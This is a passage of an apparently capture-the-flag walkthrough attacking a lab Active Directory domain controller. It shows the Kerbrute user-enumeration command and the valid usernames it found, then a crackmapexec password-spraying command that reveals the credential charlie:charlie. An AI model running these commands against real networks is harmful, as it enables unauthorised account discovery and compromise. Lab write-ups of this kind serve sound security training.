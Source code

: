 We confirm that the `guest` account is disabled, so we cannot enumerate `SMB` resources this way.

We need to find another method to enumerate users.

# KERBRUTE

We use `Kerbrute` with a username wordlist to identify valid accounts on the system.

```bash
./kerbrute_linux_amd64 userenum -d SOUPEDECODE.LOCAL  --dc 10.0.4.18 /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```

Info:
```
    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 09/07/25 - Ronnie Flathers @ropnop

2025/09/07 18:43:51 >  Using KDC(s):
2025/09/07 18:43:51 >  	10.0.4.18:88

2025/09/07 18:43:51 >  [+] VALID USERNAME:	 admin@SOUPEDECODE.LOCAL
2025/09/07 18:43:51 >  [+] VALID USERNAME:	 charlie@SOUPEDECODE.LOCAL
2025/09/07 18:43:51 >  [+] VALID USERNAME:	 Charlie@SOUPEDECODE.LOCAL
2025/09/07 18:43:51 >  [+] VALID USERNAME:	 administrator@SOUPEDECODE.LOCAL
2025/09/07 18:43:51 >  [+] VALID USERNAME:	 Admin@SOUPEDECODE.LOCAL
2025/09/07 18:43:52 >  [+] VALID USERNAME:	 Administrator@SOUPEDECODE.LOCAL
2025/09/07 18:43:52 >  [+] VALID USERNAME:	 CHARLIE@SOUPEDECODE.LOCAL
2025/09/07 18:43:56 >  [+] VALID USERNAME:	 ADMIN@SOUPEDECODE.LOCAL
2025/09/07 18:44:46 >  [+] VALID USERNAME:	 wreed11@SOUPEDECODE.LOCAL
```

This reveals two non default users: `charlie` and `wreed11`.

We save them into a `.txt` file in order to perform password spraying.

# PASSWORD SPRAYING

```bash
crackmapexec smb 10.0.4.18 -u users.txt -p users.txt --continue-on-success --no-bruteforce
```

Info:
```
SMB         10.0.4.18       445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         10.0.4.18       445    DC01             [+] SOUPEDECODE.LOCAL\charlie:charlie 
SMB         10.0.4.18       445    DC01             [-] SOUPEDECODE.LOCAL\wreed11:wreed11 STATUS_LOGON_FAILURE
```
